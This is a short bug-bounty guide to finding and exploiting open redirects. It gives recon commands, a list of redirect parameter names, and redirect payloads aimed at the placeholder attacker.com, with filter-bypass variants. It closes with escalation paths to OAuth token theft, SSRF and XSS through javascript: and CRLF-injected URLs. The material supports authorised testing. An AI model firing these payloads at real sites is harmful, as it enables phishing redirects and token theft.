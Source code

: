 ```yaml
---
layout: post
title: Open Redirection Guide
categories: bughunting 
---
```


### Identify:
* [gau](https://github.com/lc/gau) or [waybackurls](https://github.com/tomnomnom/waybackurls) + [hakrawler](https://github.com/hakluke/hakrawler) + [gf](https://github.com/tomnomnom/gf)
	
	*1*. ``cat subdomains | gau | tee -a urls``
	
	*2*. ``cat subdomains | hakrawler -depth 3 -plain | tee -a urls``
	
	*3*. ``gf redirect urls``

	using ``redirect.json``:
```json
{
    "flags" : "-HanrE",
    "pattern" : "url=|rt=|cgi-bin/redirect.cgi|continue=|dest=|destination=|go=|out=|redir=|redirect_uri=|redirect_url=|return=|return_path=|returnTo=|rurl=|target=|view=|from_url=|load_url=|file_url=|page_url=|file_name=|page=|folder=|folder_url=|login_url=|img_url=|return_url=|return_to=|next=|redirect=|redirect_to=|logout=|checkout=|checkout_url=|goto=|next_page=|file=|load_file=|turl="
}
```
* Google dorks

	``site:domain.com inrul:[PARAMETER]`` using the [parameter list](https://github.com/victoni/Bug-Bounty-Scripts/blob/master/lists/open_redirection_parameters.txt)
* Manual inspection by navigating the webapp and intercepting the requests


### Exploit:
```
* ?redirect=http://example.com
* ?redirect=https://company.com.attacker.com
* ?redirect=https://company.com@attacker.com
* ?redirect=//attacker.com
* ?redirect=\/\/attacker.com
* ?redirect=http://attacker.com#company.com
* ?redirect=http://attacker.com?company.com
* ?redirect=http://attacker.com/company.com
* ?redirect=http://ⓐⓣⓣⓐⓒⓚⓔⓡ.ⓒⓞⓜ

Using special characters:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ 
⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ 
⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ 
⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ 
Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ 
ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ 
⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿ 。
```
## Escalating to other vulnerabilities:
 [Source](https://twitter.com/LooseSecurity/status/1120638007760117760)
```
Open Redirect + Miconfigured OAuth App => OAuth Token Stealing
Open Redirect + Filtered SSRF => SSRF
Open Redirect + CRLFi => XSS
Open Redirect + javascript URI => XSS
```

Escalate to XSS
* `` ?redirect=javascript:alert(1)``
* `` ?redirect=javascript:prompt(1)``

Escalate to XSS using CRLFi
* ``?redirect=java%0d%0ascript%0d%0a:alert(0)``
